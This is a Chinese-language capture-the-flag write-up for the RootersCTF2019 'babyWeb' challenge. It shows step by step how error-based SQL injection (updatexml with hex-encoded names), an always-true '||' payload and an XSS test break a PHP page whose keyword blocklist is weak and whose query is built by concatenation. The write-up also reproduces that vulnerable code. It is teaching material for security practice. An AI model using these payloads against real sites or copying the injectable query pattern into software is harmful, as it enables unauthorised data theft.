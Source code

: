 # \[RootersCTF2019]babyWeb

## \[RootersCTF2019]babyWeb

## 考点

* 注入类型判断
* 报错注入
* 万能密码
* or绕过
* 单双引号绕过

## wp

给了提示

1. 密码是18位数字
2. 禁止输入字母和`UNION SLEEP ' " OR - BENCHMARK`

请求`search=1`返回语句`SELECT * FROM users WHERE uniqueid=1`

输入`0%23`返回`SELECT * FROM users WHERE uniqueid=0#`，应该是数字型注入

输入`1^1`返回的是`SELECT * FROM users WHERE uniqueid=1^1`，就很奇怪

那就试试`search=<script>alert(1)</script>`，结果弹框了，这里应该是服务端把GET请求的search原封不动的返回了

![](../.gitbook/assets/0pbIdCfWqxzriUaQ9G09eVPr8l3qRUN0RbUK9HPsyC8.png)

输入`<>`提示SQL语法错误，信息为`check the manual that corresponds to your MariaDB server version for the right syntax to use near '<>' at line 1`

直接试试`order by`呢，用大一点的数试试，输入`1 order by 5`，返回`Unknown column '5' in 'order clause'`

输入`1 order by 2`返回了正常信息，说明查询的列数是2

### 第一种解法：报错注入

这里可以下判断，是无回显的数字型注入，有报错信息，试试报错注入。

ban了`or`，可以使用`and`或者`||`；ban了单双引号，可以使用十六进制

```
search=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
sql_injection

search=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x73716C5F696E6A656374696F6E),0x7e),1)%23
users

search=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),0x7e),1)%23
search=1 and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),0x7e),1)%23
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,user,uniqueid

search=1 and updatexml(1,concat(0x7e,(select count(uniqueid) from users),0x7e),1)%23
2

search=1 and updatexml(1,concat(0x7e,(select group_concat(uniqueid) from users),0x7e),1)%23
837461526918364526,123456789928466788
```

使用837461526918364526即可

### 第二种解法：万能密码

payload：`1 || 1=1 limit 0,1`，使用`1 || 1=1`会列出所有的id，需要用limit控制输出

### 核心代码

```
if(isset($_GET['search'])){
  $search = $_GET['search'];
  if(preg_match('/(union|sleep|\'|\"| or |-|benchmark)/i', $search)){
    exit();
  }
  else{
    $query = "SELECT * FROM users WHERE uniqueid=$search";
    $result=mysqli_query($link,$query) or die(mysqli_error($link));
    $count = mysqli_num_rows($result);
    if(mysqli_num_rows($result) === 1){
      while($row = mysqli_fetch_array($result)){
        $pass = $row['uniqueid'];
      }
      header("Location: https://babyweb.rootersctf.in/flag0flag0123456789.php?id=".$pass);
      die();
    }

    echo $query;
  }
}
```

## 小结

1. 类似题目，\[b01lers2020]Life on Mars是输入字符串但是是数字型注入，本题是输入数字回显原文的数字型注入
2. ban了`or`，可以使用`and`或者`||`
3. ban了单双引号，可以使用十六进制
